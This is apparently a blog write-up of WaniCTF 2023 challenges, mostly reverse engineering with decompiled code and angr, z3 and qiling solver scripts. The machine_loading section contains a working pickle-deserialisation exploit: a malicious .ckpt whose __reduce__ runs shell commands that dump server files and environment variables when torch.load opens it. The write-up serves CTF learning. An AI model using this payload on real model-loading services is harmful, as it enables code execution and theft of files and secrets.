

Write up for challenges I solved (mostly rev) in WaniCTF 2023.

<!--more-->

DCDC scored 6th place out of 840 teams (which scored at least one point).
> WaniCTF is a CTF event organized by Wani Hackase, the Osaka University CTF club, aimed at beginners to intermediate level participants.


## [Misc] machine_loading (31 solved)
> 機械学習モデルを試すことができるサイトを作っています。
> まだ未完成ですが、モデルをロードする部分は先に作成しました。
> モデルの形式は、みんなよく使っている.ckptにします！  
> I'm creating a website where users can test machine learning models.
> It's not completed yet, but I've already created the part that loads a model.
> The format of the model will be .ckpt, which we all use a lot!  
> <https://machine-mis.wanictf.org>

<details>
<summary>Analysis</summary> 

- A website where we can upload a ckpt file
- Ckpt file is loaded by `torch.load` in python
- This is vulnerable to arbitrary code execution

</details>

<details>
<summary>Solution</summary>


```python
import tempfile
import requests
import torch
import os

def create_model():
    class Model:
        def __init__(self):
            pass
          
        def __reduce__(self):

            commands = ['mkdir output_dir',
                        'for f in *; do echo "cat $f;"; cat $f >> output_dir/output.txt; done',
                        'echo "\n\nenv:`env`" >> output_dir/output.txt',
                        'find . -type f -exec sh -c \'echo "{}, "`cat "{}"|base64`\' \\;>> output_dir/output.txt',
                        ]  
            commands = ';'.join(commands)
            return (os.system, (commands,))

    return Model()


with tempfile.NamedTemporaryFile() as tmp:
    filename = tmp.name + '.ckpt'
    torch.save(create_model(), filename)

def upload_file(filename, endpoint_url):
    session = requests.Session()

    # open the generated file and create a multipart-encoded file object
    with open(filename, "rb") as file:
        file_payload = {"file": (filename, file)}
        upload_response = session.post(endpoint_url, files=file_payload)

    return upload_response

res = upload_file(filename, 'https://machine-mis.wanictf.org/upload')
print(res.text)
```

</details>

Flag: `FLAG{Use_0ther_extens10n_such_as_safetensors}`

## [Reversing] theseus (136 solved)


> FLAGと同じ文字列を打ち込むと`Correct!`と表示されます。
> 
> Input the same strings as FLAG and you'll get the 'Correct!'.


[rev-theseus.zip](./rev-theseus.zip)

<details>
<summary>Analysis</summary> 


```cpp
_BOOL8 __fastcall compare(char a1, int a2) {
    char v3[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v4; // [rsp+38h] [rbp-8h]

    v4 = __readfsqword(0x28u);
    strcpy(v3, "FLAGmlEAfh.i`,f_N)r?W^c$kx");
    return a1 == v3[a2];
}

int __cdecl main(int argc, const char **argv, const char **envp) {
    char v3; // dl
    __int64 v4; // rcx
    int v6; // [rsp+0h] [rbp-60h]
    int i; // [rsp+4h] [rbp-5Ch]
    int j; // [rsp+8h] [rbp-58h]
    int v9; // [rsp+Ch] [rbp-54h]
    char v10[56]; // [rsp+20h] [rbp-40h] BYREF
    unsigned __int64 v11; // [rsp+58h] [rbp-8h]

    v11 = __readfsqword(0x28u);
    v9 = getpagesize();
    mprotect((-v9 & compare), v9, 7);
    printf("Input flag: ");
    __isoc99_scanf("%s", v10);
    LOBYTE(v6) = 0;
    for ( i = 0; i <= 25; ++i ) {
    if ( i > 3 )
        v6 = 11 * i % 15;
    if ( i > 7 ) {
        if ( i > 15 ) {
        if ( i > 23 ) {
            v3 = *(compare + i + 57);
            v4 = i + 57;
        }
        else {
            v3 = *(compare + i + 49);
            v4 = i + 49;
        }
        *(compare + v4) = v6 + v3;
        }
        else {
        *(compare + i + 39) += v6;
        }
    }
    else {
        *(compare + i + 37) += v6;
    }
    }
    for ( j = 0; j <= 25; ++j ) {
    if ( !compare(v10[j], j) ) {
        puts("Incorrect.");
        return 1;
    }
    }
    puts("Correct!");
    return 0;
}
```


</details>

<details>
<summary>Solution</summary>


```cpp
import angr

file_name = '/chall'
proj = angr.Project(file_name, auto_load_libs=False)
state = None 
simgr = proj.factory.simgr(state)

target_addr = lambda s: b"Correct!" in s.posix.dumps(1)
avoid_addr = lambda s: b"Incorrect." in s.posix.dumps(1)

simgr.explore(find=target_addr, avoid=avoid_addr)
if len(simgr.found) > 0:
    solution_state = simgr.found[0]
    print(repr(solution_state.posix.dumps(0)))
    print(solution_state.posix.dumps(0).decode("utf-8", "ignore"))
else:
    print('not found')
```

Output

```python
b'FLAG{vKCsq3jl4j_Y0uMade1t}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
FLAG{vKCsq3jl4j_Y0uMade1t}����������������������������������
```
</details>

`FLAG{vKCsq3jl4j_Y0uMade1t}`

## [Reversing] web_assembly (77 solved)

> ブラウザ上でC++を動かすことに成功しました！！ 正しいユーザ名とパスワードを入力するとフラグがゲットできます。
> 
> I successfully ran C++ in the browser!! Enter the correct username and password to get the flag.
> 
> https://wasm-rev.wanictf.org
> 
> ---
> 注意: 作問におけるミスにより、フラグはFlag{から始まり}で終わります。ご迷惑をおかけして申し訳ありません。
> 
> Note: This flag starts `Flag{` and ends `}`. Sorry for the inconvenience.
> 

<details>
<summary>Analysis</summary> 

    

    
</details>


`FLAG{Y0u_C4n_3x3cut3_Cpp_0n_Br0us3r!}`

## [Reversing] Lua (69 solved)

> るあ〜
> 
> Lua~~~
> 
> ---
> 
> 配布ファイルmain.luaのubuntuにおける実行方法
> How to run main.lua on ubuntu
> ```
> $ sudo apt update
> $ sudo apt install lua5.1
> $ lua main.lua
> Input FLAG : FAKE{FAKE_FLAG}
> Incorrect
> ```


[rev-lua.zip](./rev-lua.zip)

<details>
<summary>Analysis</summary> 

There is a base64 and RC4 related routine. 
    

</details>

<details>
<summary>Solution</summary>

Modify the given Lua code to dump the contents of `bm.env` before executing the instructions. We can achieve this by adding a few lines to the `bs` function:

```lua
local function bs(bm)
    -- Rest of the function definitions here
    -- ...

    -- Add the following lines to dump the environment (bm.env) to a file
    local file = io.open(output_file_name .. ".txt", "w")
    file:write("rand0m: bm.env\n")
    pretty_print_table_to_file(bm.env, file)
    file:close()
```

</details>

`FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}`


## [Reversing] javersing (348 solved)


> jarファイルの中身を覗いてみましょう！
> 
> Let's take a look at the contents of .jar file!


[rev-javersing.zip](./rev-javersing.zip)

I didn’t solve this during the contest, but I wrote a solve script anyways.


<details>
<summary>Analysis</summary> 

```java
package defpackage;

import java.util.Scanner;

/* renamed from: javersing  reason: default package */
/* loaded from: javersing.jar:javersing.class */
public class javersing {
    public static void main(String[] strArr) {
        boolean z = true;
        Scanner scanner = new Scanner(System.in);
        System.out.println("Input password: ");
        String replace = String.format("%30s", scanner.nextLine()).replace(" ", "0");
        for (int i = 0; i < 30; i++) {
            if (replace.charAt((i * 7) % 30) != "Fcn_yDlvaGpj_Logi}eias{iaeAm_s".charAt(i)) {
                z = false;
            }
        }
        if (z) {
            System.out.println("Correct!");
        } else {
            System.out.println("Incorrect...");
        }
    }
}
```
</details>

<details>
<summary>Solution</summary>

```python
from z3 import *

# Create a solver instance
solver = Solver()

# Create variables for each character in the password
password = [Int(f'password_{i}') for i in range(30)]

# Constrain password characters to printable ASCII range (32-126)
for i in range(30):
    solver.add(password[i] >= 32, password[i] <= 126)

# Add constraints based on the logic in the Java code
secret = "Fcn_yDlvaGpj_Logi}eias{iaeAm_s"
for i in range(30):
    solver.add(password[(i * 7) % 30] == ord(secret[i]))

# Check if a solution exists and print the solution if found
if solver.check() == sat:
    model = solver.model()
    solution = ''.join([chr(model[password[i]].as_long()) for i in range(30)])
    print(f"{solution = }")
else:
    print("No solution found.")
```
</details>
    

`FLAG{Decompiling_java_is_easy}`

## [Reversing] fermat (141 solved)

> Give me a counter-example


[rev-fermat.zip](./rev-fermat.zip)

<details>
<summary>Analysis</summary> 

```cpp
int __cdecl main(int argc, const char **argv, const char **envp) {
    unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
    unsigned int v5; // [rsp+10h] [rbp-10h] BYREF
    unsigned int v6; // [rsp+14h] [rbp-Ch] BYREF
    unsigned __int64 v7; // [rsp+18h] [rbp-8h]

    v7 = __readfsqword(0x28u);
    printf("Input a> ");
    __isoc99_scanf("%u", &v4);
    printf("Input b> ");
    __isoc99_scanf("%u", &v5);
    printf("Input c> ");
    __isoc99_scanf("%u", &v6);
    printf("(a, b, c) = (%u, %u, %u)\n", v4, v5, v6);
    if ( check(v4, v5, v6) )
    {
    puts("wow :o");
    print_flag();
    }
    else
    {
    puts("Invalid value :(");
    }
    return 0;
}
```

```cpp
unsigned __int64 print_flag() {
    int i; // [rsp+Ch] [rbp-B4h]
    int v2[20]; // [rsp+10h] [rbp-B0h]
    char s[8]; // [rsp+60h] [rbp-60h] BYREF
    __int64 v4; // [rsp+68h] [rbp-58h]
    __int64 v5; // [rsp+70h] [rbp-50h]
    __int64 v6; // [rsp+78h] [rbp-48h]
    __int64 v7; // [rsp+80h] [rbp-40h]
    __int64 v8; // [rsp+88h] [rbp-38h]
    __int64 v9; // [rsp+90h] [rbp-30h]
    __int64 v10; // [rsp+98h] [rbp-28h]
    __int64 v11; // [rsp+A0h] [rbp-20h]
    int v12; // [rsp+A8h] [rbp-18h]
    unsigned __int64 v13; // [rsp+B8h] [rbp-8h]

    v13 = __readfsqword(0x28u);
    v2[0] = -142476154;
    v2[1] = -978335301;
    v2[2] = -710549857;
    v2[3] = -274600028;
    v2[4] = -273358932;
    v2[5] = -996157777;
    v2[6] = -274342487;
    v2[7] = -274407775;
    v2[8] = -542714203;
    v2[9] = -996162382;
    v2[10] = -541855825;
    v2[11] = -274348372;
    v2[12] = -709438030;
    v2[13] = -559299662;
    v2[14] = -2131562585;
    v2[15] = -2013998344;
    v2[16] = -2030644062;
    v2[17] = -727481693;
    v2[18] = -1329541640;
    *(_QWORD *)s = 0LL;
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    v7 = 0LL;
    v8 = 0LL;
    v9 = 0LL;
    v10 = 0LL;
    v11 = 0LL;
    v12 = 0;
    for ( i = 0; i <= 18; ++i ) {
        s[4 * i] = v2[i] ^ 0xC0;
        s[4 * i + 1] = BYTE1(v2[i]) ^ 0xB0;
        s[4 * i + 2] = HIWORD(v2[i]) ^ 0xC0;
        s[4 * i + 3] = HIBYTE(v2[i]) ^ 0xB0;
    }
    puts(s);
    return __readfsqword(0x28u) ^ v13;
}
```

- `print_flag` is a state dependent function (doesn’t depend on any other variables)

So, we can just call `print_flag` function and get the flag!

Our options are, 

- patch the binary
- use angr to path find
- just call the `print_flag` using qiling

Let’s use qiling just for fun!

```
> nm /content/fermat  | grep ' T '
00000000000011a9 T check
0000000000001588 T _fini
0000000000001580 T __libc_csu_fini
0000000000001510 T __libc_csu_init
0000000000001401 T main
0000000000001207 T print_flag
00000000000010c0 T _start
```
    

</details>

<details>
<summary>Solution</summary>

```python
from qiling import Qiling
from qiling.const import QL_VERBOSE

binary_path = "pathto/fermat"
# Set up the binary and root filesystem paths
rootfs_path = "pathto/rootfs/x8664_linux"

# Initialize Qiling with the binary and root filesystem
ql = Qiling([binary_path], rootfs_path)
X64BASE = int(ql.profile.get("OS64", "load_address"), 16)

def dump(ql, *args, **kw):
    ql.save(reg=False, cpu_context=True, snapshot="/tmp/snapshot.bin")
    ql.emu_stop()

ql.hook_address(dump, X64BASE + 0x1401)
ql.run()

start_of_print_flag = 0x1207
end_of_print_flag = 0x1400 

begin_point = X64BASE + start_of_print_flag
end_point = X64BASE + end_of_print_flag
ql.run(begin=begin_point, end=end_point)
```

Output 

```
[=] 	mmap(addr = 0x7fffb81c3000, length = 0x3ae0, prot = 0x3, flags = 0x32, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c3000
[=] 	close(fd = 0x3) = 0x0
[=] 	mmap(addr = 0x0, length = 0x2000, prot = 0x3, flags = 0x22, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c7000
[=] 	arch_prctl(code = 0x1002, addr = 0x7fffb81c7f00) = 0x0
[=] 	mprotect(start = 0x7fffb81bd000, mlen = 0x4000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x555555557000, mlen = 0x1000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x7ffff7ffc000, mlen = 0x1000, prot = 0x1) = 0x0
--------------------------------------------------------------------------------
main()
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
print_flag
--------------------------------------------------------------------------------
[=] 	fstat(fd = 0x1, buf_ptr = 0x80000000db50) = 0x0
[=] 	brk(inp = 0x0) = 0x55555555b000
[=] 	brk(inp = 0x55555557c000) = 0x55555557c000
FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}
[=] 	write(fd = 0x1, buf = 0x55555555b260, count = 0x4b) = 0x4b
```
</details>

`FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}`


## [Forensics] Apocalypse (113 solved)


> ファイルが切り取られてしまったみたいです。
> ※フラグ形式はFLAG{[0-9a-zA-Z_]+}です。
> 
> It looks like the file has been cut off.
> *The flag format is FLAG{[0-9a-zA-Z_]+}.


[for-Apocalypse.zip](./for-Apocalypse.zip)

I’ve used [https://fotoforensics.com](https://fotoforensics.com/analysis.php?id=c5ac6a80833988327d15c588af8b19584c502084.36410). 


`FLAG{Watch_out_4_2023_21036}`